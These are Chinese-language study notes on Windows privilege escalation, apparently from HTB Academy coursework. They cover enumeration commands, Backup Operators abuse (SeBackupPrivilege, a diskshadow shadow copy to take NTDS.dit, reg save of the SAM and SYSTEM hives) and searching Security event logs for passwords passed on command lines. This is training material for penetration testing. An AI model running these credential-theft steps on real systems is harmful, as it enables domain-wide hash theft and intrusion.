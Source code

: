 # windows提权-HTBA

Windows 系统存在巨大的攻击面。我们可以提升权限的一些方法包括：

- 滥用 Windows 组权限	
- 滥用 Windows 用户权限
- 绕过用户帐户控制	
- 滥用弱服务/文件权限
- 利用未修补的内核漏洞	
- 凭据盗窃
- 流量捕获	

# 工具

下面是HTBA提供的工具：
- Seatbelt	 
- winPEAS	
- PowerUp	
- SharpUp	
- JAWS	
- SessionGopher	
- Watson	
- LaZagne	
- Windows Exploit Suggester - Next Generation
- Sysinternals Suite

# 态势感知

### 网络信息

接口、IP 地址、DNS 信息:
```
ipconfig /all
```

arp表：
```
arp -a
```

路由表：
```
route print
```

检查 Windows Defender 状态:
```powershell
Get-MpComputerStatus
```

列出 AppLocker 规则:
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

测试 AppLocker 策略：
```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

### 初始枚举




# windows组权限

# windows内置组

Windows的内置组：
- Backup Operators 备份操作员	
- Event Log Readers 事件日志读取器	
- DnsAdminsDNS 管理员
- Hyper-V AdministratorsHyper-V 管理员
- Print Operators 打印操作员	
- Server Operators 服务器运营商

## Backup Operators备份操作员

显示当前用户的权限状态：
```powershell
whoami /priv
```
Backup Operators的组成员有`SeBackup`和`SeRestore`的权限。
SeBackupPrivilege 允许我们遍历任何文件夹并列出文件夹内容。这将允许我们从文件夹复制文件，即使文件夹的访问控制列表 (ACL) 中没有我们的访问控制条目 (ACE)。但是，我们无法使用标准复制命令来执行此操作。相反，我们需要以编程方式复制数据，确保指定 FILE_FLAG_BACKUP_SEMANTICS 标志。

利用该权限的工具地址`https://github.com/giuliano108/SeBackupPrivilege`

### 权限的一般使用方法

**导入**
Importing Libraries导入库:
```
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

查看该权限的状态：`Get-SeBackupPrivilege`
使用`Set-SeBackupPrivilege`启用该权限
```
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege
```
**复制文件**
可以复制高于自己权限的文件，而被复制后的文件我们有读的权限。
复制示例：
```
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```
### 其他使用方法

**攻击域控制器 - 复制 NTDS.dit**
此组还允许在本地登录到域控制器。Active Directory 数据库 NTDS.dit 是一个非常有吸引力的目标，因为它包含域中所有用户和计算机对象的 NTLM 哈希。但是，此文件已锁定，非特权用户也无法访问。

由于 NTDS.dit 文件默认处于锁定状态，因此我们可以使用 Windows diskshadow 实用程序创建 C 盘的卷影副本，并将其公开为 E 盘。此卷影副本中的 NTDS.dit 不会被系统使用。
diskshadow介绍：`https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow` (好像只有windows的服务器才可以使用，个人PC不行)

大致操作：
```
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
现在已经把文件复制到E盘了，可以使用SeBackUpPrivilege权限把文件复制到其他目录下:
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
(这个操作成功的前提是操作的PC有E盘，或是有别的盘符。)
```

**备份 SAM 和 SYSTEM 注册表配置单元**

备份：
```
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV
The operation completed successfully.
```
值得注意的是，如果文件夹或文件对我们的当前用户或他们所属的组有明确的拒绝条目，这将阻止我们访问它，即使指定了 FILE_FLAG_BACKUP_SEMANTICS 标志。

**其他内容**

详见HTBA-WINDOWS 权限提升-Windows 内置组：
- 从 NTDS.dit 中提取凭据
- 使用 SecretsDump 提取哈希
- 使用 Robocopy 复制文件


## Event Log Readers事件日志读取器

攻击者常用的命令：https://blogs.jpcert.or.jp/en/2016/01/windows-commands-abused-by-attackers.html

确认组成员资格：
```
net localgroup "Event Log Readers"
```

使用 wevtutil 搜索安全日志:
```
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
我们还可以使用参数 /u 和 /p 为 wevtutil 指定备用凭据。

将凭证传递给 wevtutil:
```
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

使用 Get-WinEvent 搜索安全日志:
```
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
注意：使用 Get-WInEvent 搜索安全事件日志需要管理员访问权限或对注册表项 HKLM\System\CurrentControlSet\Services\Eventlog\Security 调整的权限。仅 Event Log Readers 组中的成员身份是不够的。
该 cmdlet 还可以以具有 -Credential 参数的其他用户身份运行。


## DnsAdmins Dns管理员

